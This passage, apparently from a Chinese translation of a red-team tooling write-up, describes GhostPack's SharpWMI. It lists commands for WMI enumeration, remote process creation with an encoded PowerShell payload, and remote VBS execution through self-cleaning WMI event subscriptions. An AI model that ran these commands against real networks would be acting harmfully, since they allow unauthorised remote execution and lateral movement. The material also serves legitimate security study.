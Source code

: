 ## **SharpWMI**

最后一个小工具\([SharpWMI](https://github.com/GhostPack/SharpWMI/)\)是一个各种 WMI 功能的简单 C\# 包装器。 它允许通用的远程\(或本地\) WMI 查询、通过 Win32\_Process 的远程进程执行以及通过"临时"永久 WMI 事件订阅的远程 VBS 执行。

```text
Local system enumeration  :
    SharpWMI.exe action=query query="select * from win32_service" [namespace=BLAH]
    Ex: SharpWMI.exe action=query query="select * from win32_process"
    Ex: SharpWMI.exe action=query query="SELECT * FROM AntiVirusProduct" namespace="root\SecurityCenter2"

Remote system enumeration :
    SharpWMI.exe action=query computername=HOST1[,HOST2,...] query="select * from win32_service" [namespace=BLAH]
    Ex: SharpWMI.exe action=query computername=primary.testlab.local query="select * from win32_service"
    Ex: SharpWMI.exe action=query computername=primary,secondary query="select * from win32_process

Remote process creation   :
    SharpWMI.exe action=create computername=HOST[,HOST2,...] command="C:\temp\process.exe [args]"
    Ex: SharpWMI.exe action=create computername=primary.testlab.local command="powershell.exe -enc ZQBj..."

Remote VBS execution      :
    SharpWMI.exe action=executevbs computername=HOST[,HOST2,...]
    Ex: SharpWMI.exe action=executevbs computername=primary.testlab.local
```

这个工具里面没有什么革命性的东西，但 WMI 事件订阅方法可以很好地服务于我们。 基于计时器的事件订阅是在远程系统上创建的，因此任意的 VBS 脚本都可以作为 ActiveScriptEventConsumer 的有效载荷。 事件触发器被触发后，你的 VBS 会被执行，之后一切都会被清理干净:

```text
C:\Temp>SharpWMI.exe action=executevbs computername=primary.testlab.local

[*] Creating 'Timer' object on primary.testlab.local
[*] Setting 'Debug' event filter on primary.testlab.local
[*] Setting 'Debug' event consumer on primary.testlab.local
[*] Binding 'Debug' event filter and consumer on primary.testlab.local

[*] Waiting 45 seconds for event to trigger on primary.testlab.local ...

[*] Removing 'Timer' internal timer from primary.testlab.local
[*] Removing FilterToConsumerBindingr from primary.testlab.local
[*] Removing 'Debug' event filter from primary.testlab.local
[*] Removing 'Debug' event consumer from primary.testlab.local
```

可以使用eventname=BLAH参数修改过滤器或使用者名称。 如果要更改执行的 VBS 脚本，请在编译之前修改项目顶部的 vbsPayload 字符串。 推荐使用 [DotNetToJScript](https://github.com/tyranid/DotNetToJScript)。

